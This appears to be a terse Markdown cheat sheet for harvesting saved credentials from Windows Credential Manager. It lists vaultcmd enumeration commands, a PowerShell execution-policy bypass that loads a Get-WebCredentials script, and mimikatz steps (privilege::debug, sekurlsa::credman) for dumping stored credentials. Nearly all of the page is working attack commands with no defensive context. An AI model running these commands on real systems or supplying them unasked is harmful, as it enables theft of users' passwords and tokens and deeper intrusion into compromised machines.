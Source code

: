 # GUI

### Control Panel -> User accounts -> Credential Manager

# CMD

#### 1) 

    vaultcmd /list

#### 2) 

    vaultcmd /listproperties:"Web Credentials" or "Windows Credentials"

#### 3) 

    vaultcmd /listcreds:"Web Credentials or "Windows Credentials"

#### 4) 

    Powershell.exe -ex bypass

#### 5) 

    Import-Module c:\tools\Get-WebCredentials.ps1

#### 6) 

    Get-WebCredentials.ps1

# MIMIKATZ

#### 1) 

    mimikatz

#### 2) 

    privilege::debug

#### 3) 

    sekurlsa::credman
